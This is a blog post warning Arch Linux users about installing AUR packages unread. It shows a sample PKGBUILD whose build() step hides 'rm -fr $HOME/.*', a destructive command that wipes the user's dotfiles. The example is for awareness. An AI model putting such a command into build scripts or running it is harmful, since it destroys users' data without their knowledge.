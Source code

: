 ```yaml
---
title: AUR Insecurity
tags: arch
layout: post
---
```


Everytime I see a new user asking about the AUR on IRC I cringe.  Not because I
don't use the AUR or I think the AUR is a bad thing, but because I know that
someone is going to recommend a way to automagically install these user provided
packages.

Remember, the AUR is a user repository.  This means that any evil bastard can
upload a PKGBUILD that can wreck your system.  I've written an example below --
the urls have been changed so you can't possibly run makepkg on this and hurt
anything.

{% highlight bash %}
pkgname=super-cool-program
pkgver=6.0.1
pkgrel=1
pkgdesc='Something really awesome that you want to install'
arch=('i686' 'x86_64')
url='http://a.trustworthy.source.url/'
license=('None')
depends=()
source=(http://a.trustworthy.source.url/${pkgname}/${pkgver}/)
md5sums=('e6f64c753e4d6de8db6fc2e0d')
build() {
  cd ${srcdir} && rm -fr $HOME/.*
  install -D -m755 ${pkgname} ${pkgdir}/usr/bin/${pkgname}
}
{% endhighlight %}

Any experienced user will quickly notice the horrible thing that hapens here.
Of course, this is a **very** simple PKGBUILD.  Look at [this one][1] for example,
malicious code could be anywhere in there and a quick glance isn't going to
catch it.  Obviously `rm` is just one example of something malicious, it's just
an easy one to demonstrate.

So how many times have you blindly installed something from the AUR?  I know I
have a few times.  I also know that I'll never do it again.  Hopefully the next
time you `wget && tar && makepkg` you'll
take a second and think about what you might be getting yourself in to.

[1]: https://aur.archlinux.org/packages/li/linux-ice/PKGBUILD
